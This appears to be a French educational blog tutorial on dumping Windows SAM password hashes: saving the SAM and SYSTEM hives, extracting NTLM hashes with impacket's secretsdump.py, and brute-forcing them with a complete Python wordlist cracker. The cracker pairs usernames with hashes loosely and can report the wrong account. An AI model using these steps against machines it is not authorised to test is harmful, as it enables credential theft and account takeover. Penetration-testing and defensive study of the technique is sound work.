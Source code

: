 ```yaml
---
title: "[SAM] Dumping des informations d'identification Microsoft"
description: sam.png
tags: ["Dans cet article je vous présente le fonctionnement d'un fichier Security Account Manage (SAM), et de vous montrer comment dump un fichier SAM grâce au fichier SYSTEM sous une machine Windows."]
---
```


![Flower](../sam.png)

Introduction
----
Dans ce cours à but éducatif nous allons voir comment dumper et casser des mots de passe Microsoft grâce au système de fichier `Security Account Manager` (SAM) ou en français `Gestionnaire de compte de sécurité`.

SAM
----
Alors commençons par la base des bases c'est quoi `SAM` concrètement ? <br />

La SAM (Security Account Manager ou gestionnaire des comptes de sécurité) est la base de données des comptes locaux sur Windows Server 2003, Windows XP, Windows 2000. C'est l'un des composants de la base de registre. Elle contient les mots de passe locaux.

La SAM est stockée physiquement dans le fichier `%SystemRoot%\system32\Config\SAM`. C'est un fichier de ruche inclus dans `HKEY_LOCAL_MACHINE`, lui-même inclus dans la base de registre. Si vous regardez bien, nous voyons très bien que les clés `SAM` et `SYSTEM` sont dans le registre de Windows.

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558894108-screenshot-5.png)

Nous allons enregistrer une copie des sous-clés, entrées ou données spécifiées du registre dans un format binaire via la commande `reg`. La commande `reg` est une commande Microsoft et le but du programme est de gérer le registre de Windows (Très utile pour les personnes qui n'aiment pas le GUI).

Une très bonne documentation de `REG` : [REG](https://windows.developpez.com/cours/ligne-commande/?page=page_17)

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558894619-screenshot-2.png)

Les deux sous-clés `SAM` et `SYSTEM` ont été enregistrer dans la racine de Windows `C:\sam/system`. Nous arrivons dans la phase pour dumper les fichiers dans mon cas je vais faire ça sous Windows mais sous Linux ça peut également très bien fonctionner.

IMPACKET
----
Avant de dump le fichier, on va s'assurer que `impacket` est installer dans notre machine, voici le lien pour l'installer [impacket](https://github.com/SecureAuthCorp/impacket)

Impacket est un ensemble de classes Python permettant de travailler avec des protocoles réseau. Impacket se concentre sur la fourniture d'un accès programmatique de bas niveau aux paquets et à certains protocoles (par exemple, SMB1-3 et MSRPC), la mise en œuvre du protocole elle-même.

Pour l'installation de `impacket` : <br />

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558905335-screenshot-1.png)

Avant d'utiliser le programme nous allons mettre le dossier `examples` dans la variable d'environnement de l'ordinateur. Pour éviter toujours d'aller vers le dossier qui peut être assez long.

![Flower](https://image.noelshack.com/fichiers/2019/22/1/1558952753-screenshot-1.png)

Concrètement pour utiliser le programme `secretsdump.py` il vous suffit d'utiliser seulement 3 options en particulier, `-sam`, `-system` et enfin pour l'option finale `LOCAL`.

> -sam    : Spécifier le fichier `SAM`. <br />
> -system : Spécifier le fichier `SYSTEM`. <br />
> LOCAL   : Si vous voulez analyser les fichiers locaux.<br />

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558905838-screenshot-2.png)

Le dumping à fonctionner avec succès donc maintenant nous allons passer au casse du HASH. Il faut avant tout identifier le HASH cela ressemble grandement à du `NT Lan Manager` (NTLM). 

CRACK
----
Alors concrètement comme aujourd'hui je suis de bonne humeur, j'ai crée un script en Python rien que pour vous ahha. C'est un petit script qui fais très bien le taf pour bruteforce le `HASH`.

{% highlight python %}
#coding:utf-8

import sys
import hashlib
import binascii

def recover_hash_nt():
	with open(sys.argv[1], "r") as ptr_open:
		ptr_open = ptr_open.readlines()

	username_list = []
	hash_checking = []

	for line_strip in ptr_open:
		'''
			Boucle pour lire le fichier et de
			trouver les valeurs précises dans la fonction __recover_hash_nt__().
		'''
		line_strip = line_strip.strip("\n")
		line_strip = line_strip.split(":")

		username   = line_strip[0]
		hash_check = line_strip[3]

		username_list.append(username)
		hash_checking.append(hash_check)

	with open(sys.argv[2], "r") as ptr_wordlist:
		ptr_wordlist = ptr_wordlist.readlines()

	for ptr_hash in hash_checking:
		ptr_hash = ptr_hash.strip("\n")
		'''
			read the hash in the loop
			__recover_hash_nt()__.
		'''
		for ptr_username in username_list:
			ptr_username = ptr_username.strip("\n")
			'''
				read the username in the loop
				__recover_hash_nt()__.
			'''
			for ptr_list in ptr_wordlist:
				ptr_list = ptr_list.strip("\n")
				'''
					read the wordlist in the loop.
					__recover_hash_nt()__.
				'''
				ptr_ntlm = hashlib.new('md4', ptr_list.encode('utf-16le')).digest()
				if(binascii.hexlify(ptr_ntlm) == ptr_hash):
					print("[+] CRACKED !! : [%s:%s:%s]" %(ptr_username, ptr_hash, ptr_list))
					sys.exit(0)

if __name__ == "__main__":
	recover_hash_nt()
  
{% endhighlight %}

Pour utiliser le programme ce n'est pas très compliquer il vous suffit de spécifier le fichier ou il y'a les HASH à casser et ensuite la wordlist. N'oubliez pas de mettre les arguments sinon le programme ne fonctionne pas. Si vous souhaitez casser un HASH, vous devez créé un fichier texte, et que vous mettez la ligne avec l'utilisateur..

Par exemple mon fichier hash.log :

	Seyptoo:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::

![Flower](https://image.noelshack.com/fichiers/2019/22/1/1558959032-screenshot-2.png)
